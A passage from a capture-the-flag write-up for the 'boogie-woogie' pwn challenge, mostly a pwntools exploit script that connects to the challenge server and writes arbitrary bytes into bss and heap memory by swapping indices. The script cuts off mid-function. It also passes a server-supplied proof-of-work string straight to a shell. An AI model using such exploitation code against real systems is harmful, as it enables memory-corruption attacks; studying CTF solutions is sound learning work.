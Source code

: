 ```py

```

we went through each byte we want to write, found an index to it in libc's bss, and swapped with it.
This is somwhat stable, and after a few minutes of it running, we got the flag!!

Here is the full exploit:

```py
#!/usr/bin/env python3

from pwn import *
import os
exe = ELF("./boogie-woogie")
libc = ELF("./libc.so.6")

REMOTE = True

if REMOTE:
    #p = remote("localhost" , 5000)
    p = remote("mc.ax" , 31040)
    p.recvuntil("work:\n")
    work = p.recvline()[:-1].decode()
    PoW = os.popen(work).read()

    p.sendline(PoW)

else:
    p = exe.process()

context.binary = exe

char_set = [i for i in open("bss_dump", 'rb').read()] + [0] * 0x10000
char_set_libc = [i for i in open("libc_dump", 'rb').read()] 

def clap(idx1, idx2, c='\t'):
    p.sendlineafter("exception:\r\n", str(idx1) + c + str(idx2))
    print("SENT CLAP")

def write_to_offset(offset, what):
    for i in range(len(what)):
        try:
            idx = char_set.index(what[i]) 
            char_set[idx] = 0xff
        except:
            idx = char_set_libc.index(what[i]) + (libc.address + 0x21a000 - exe.sym.data)
            print(hex(idx), what[i])                
        print(hex(idx), what[i])
        clap(offset+i, idx)

def slap_length(offset1, offset2, length):
    for i in range(length):
        clap(offset1 + i, offset2 + i)


end_bss = 0xfe0 #offset to the end of the bss, from our data variable
heap_offset = end_bss + 0x121b000


def find_base_heap_offset():
    global p
    clap(1, heap_offset)
    
```